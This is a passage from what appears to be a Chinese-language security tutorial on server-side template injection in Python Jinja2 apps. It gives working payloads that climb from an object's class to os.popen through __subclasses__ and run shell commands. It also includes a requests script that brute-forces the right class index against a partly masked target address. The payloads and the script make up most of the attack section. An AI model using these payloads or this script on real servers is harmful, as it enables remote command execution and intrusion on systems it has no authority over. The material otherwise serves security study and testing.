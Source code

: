 ```


```

随便挑一个类构造 payload 执行命令即可：

```
{{''.__class__.__bases__[0].__subclasses__()[79].__init__.__globals__['os'].popen('ls /').read()}}


```

但是该方法遍历得到的类不准确，因为一些不相关的类名中也存在字符串 “os”，所以我们还要探索更有效的方法。

我们可以看到，即使是使用 os 模块执行命令，其也是调用的 os 模块中的 popen 函数，那我们也可以直接调用 popen 函数，存在 popen 函数的类一般是 `os._wrap_close`，但也不绝对。由于目标 Python 环境的不同，我们还需要遍历一下。

### 寻找 popen 函数执行命令

首先编写脚本遍历目标 Python 环境中含有 popen 函数的类的索引号：

```
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'popen' in res.text:
        print(i)

# 得到编号为117


```

直接构造 payload 即可：

```
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('ls /').read()}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174656-249c2ca2-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174656-249c2ca2-bd3e-1.png)

这样得到的索引还是很准确的。

除了这种方法外，我们还可以直接导入 os 模块，python 有一个 importlib 类，可用 load_module 来导入你需要的模块。
